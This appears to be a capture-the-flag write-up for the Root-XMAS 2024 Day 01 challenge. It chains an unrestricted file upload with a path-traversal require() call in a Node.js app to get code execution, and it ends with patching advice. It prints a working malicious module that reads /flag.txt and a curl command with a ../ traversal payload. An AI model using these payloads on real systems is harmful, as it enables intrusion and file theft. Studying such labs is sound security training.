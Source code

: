 ```yaml
---
title: Root-XMAS 2024 Day 01 - Generous Santa
feed: hide
permalink: /RootXMAS_2024_01
date: 01-12-2024
summary: All I want for christmas is an RCE.
---
```

### summary


A small challenge to start the advent, about unrestricted file upload accessible with a Local File Inclusion leading to an RCE on Node JS 
### recon

Santa has modernized and provided a website where you can ask for gifts! And I wish for an RCE, so let's add it!

We have a nice website where we can add gifts to our sack. 
Clicking on any item doesn't seem to do anything visually, but sends a request to the server.

![[rmxmas24d01giftlist.png|those are gifts I want!]]

If we want another gift, we can suggest one by sending a name and a picture of what we want.

![[rmxmas24d01giftupload.png|upload a file, what could go wrong?]]
The code of the site is provided, so let's check the good bytes, in the `hotte.js` :

The `/api/add` endpoint imports the js module of the user chosen gift,  calls its `store` and returns its output.

```js

router.post('/add', async (req, res) => {
    const { product } = req.body;

    try {
        const Gift = require(`../models/${product.toLowerCase()}`);
        const gift = new Gift({ name: product, description: `Description of ${product}` });
        output = gift.store();
        res.json({ success: true, output: output });
    } ...
});
```

we see that the `require` call allows any path. 

```js
require(`../models/${product.toLowerCase()}`);
```

No path sanitization, no `path.basename()` , we can import any file on the file system via a Path Traversal! Perfect, if only we had an unrestricted file upload...

That the `/api/suggest` provides!
We see on the source that it's a very simple method, that allows any file type and extension, and puts it on a `/tmp/DATE/` folder.

```js
router.post('/suggest', upload.single('photo'), (req, res) => {
    const { name } = req.body;
	...
    const now = new Date();
    const dateStr = now.toISOString().split('T')[0];
    const timeStr = `${now.getHours()}-${now.getMinutes()}-${now.getSeconds()}`;
    const tempDir = path.join('/tmp', `${dateStr}_${timeStr}`);
    ...
    const tempPath = path.join(tempDir, req.file.originalname);

    fs.writeFile(tempPath, req.file.buffer, (err) => {
	...
	res.json({ message: `Thank you! Santa will consider your suggestion.`, photoPath: tempPath });
    });
});
```

Thankfully for us we have the source, and the date is by the second, so we can guess the folder name by checking the upload date, do a sandwich attack, maybe we will have to guess the timezo... 
Wait, what do you mean "the server returns the file path in the response"?  🤦

```json
{
  "message": "Thank you! Santa will consider your suggestion.",
  "photoPath": "/tmp/2024-12-01_12-28-5/payload.js"
}
```

Well... that's easier!
So now we know the code imports a file, create a `Gift` object and calls its `store` method, so let's check how these are created, with the `models/PS5.js`:

```js
const mongoose = require('mongoose');

const ps5Schema = new mongoose.Schema({
    name: { type: String, default: 'PS5' },
    description: { type: String, default: 'The PlayStation 5, the latest video game console from Sony.' }
});

ps5Schema.methods.store = function() {
    console.log('PS5 stored in the sack.');
    return this;
};

module.exports = mongoose.model('PS5', ps5Schema);
```

All other gifts follow the same model. 
There is absolutely no reason right now to create customs modules for each gift, as the `store` method is the same for each one (except the hardcoded gift name, of course). It could have just been a JSON.

We also see in the `Dockerfile` that the flag is at the root of the filesystem.

```Dockerfile
COPY flag.txt /flag.txt
```

### solution

We could just upload a JS file that directly creates a reverse shell or sends a fetch request to our server.
But let's do things right, and create a custom model which will return the `/flag.txt` file.

`payload.js`
```js
const mongoose = require('/usr/app/node_modules/mongoose');
const fs = require('fs');

data = ""
try {
    data = fs.readFileSync('/flag.txt', 'utf8');
} catch (err) {
    console.error(err);
}

flagSchema = new mongoose.Schema();

flagSchema.methods.store = function () {
    return { "flag": data }
};

module.exports = mongoose.model('Flag', flagSchema);
```

We upload the file via the web interface and retrieve the `filePath` in the Firefox devtools requests history.
Then we request our poisoined gift in our sack: 

```bash
curl --insecure -X POST -H "Content-Type: application/json" -d \
'{"product":"../../../../../../../../../../tmp/2024-12-01_11-48-39/payload"}' \
https://day1.challenges.xmas.root-me.org/api/add
```

```json
{
  "success": true,
  "output": {
    "flag": "The flag is : \n\nRM{Mayb3_S4nt4_Cl4uS_Als0_G3t_A_Flag}"
  }
}
```

### issues 

Our module is a bit different than the provided model.
#### import error 

If we do
```js
const mongoose = require('mongoose');
```
We get
```json
{"message":
"Error adding the product ... Cannot find module 'mongoose'"
}
```

As we are importing files from a file in `/tmp`, it does not find the apps libraries. 
We need to use the absolute path of the lib which is in the `node_modules` directory of the app. 
We can find the path of our app in the `Dockerfile`

```Dockerfile
WORKDIR /usr/app
...
COPY ./src/ ./
```

#### useless  schema definition

When adding items to the "sack", the description of the item defined in its module is not used, it just returns an hardcoded string.

```js
const gift = new Gift({ name: product, description: `Description of ${product}` });
```

For example if we request a tesla we get:
```json
{
    "name": "tesla",
    "description": "Description of tesla",
    "_id": "674c561425dab95f390465af"
}
```
Instead of the real description of the tesla.
So no need to put the flag in the model description, as it will not be returned in this case.

### Blue team: patching the vulns

To prevent upload of scripts, the app should only accept valid images.
Owasp has a nice [File Upload Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html). To summarise:

- Do not use user provided filenames,  use a random string
	-  It prevents possible path traversals vulns and prevents attackers from guessing the file path and trying an LFI
- Do not return the file path to the user!!!
- Only allow specific files extensions (.png, .bmp)
- Check the type of your file on your server.
	- The `file` command on linux does this, as the node [file-type](https://www.npmjs.com/package/file-type) module.
- Launch a virus scan on your uploads, just to be sure, it still could be a polyglot file, or your server could be used as a malware redistribution platform. 

When dynamically importing modules:
- Don't do it. 
	- If you think you need it, you probably don't.
- Restrict the paths from which you are importing. (ex: your source dir)
- If using a user provided filename, sanitize it and prevent LFI with `path.basename()` to extract only the filename.
- Ideally, only allow files from a whitelist.


| Next day | [[Day 02 - Wrapped Packet]] |
| -------- | --------------------------- |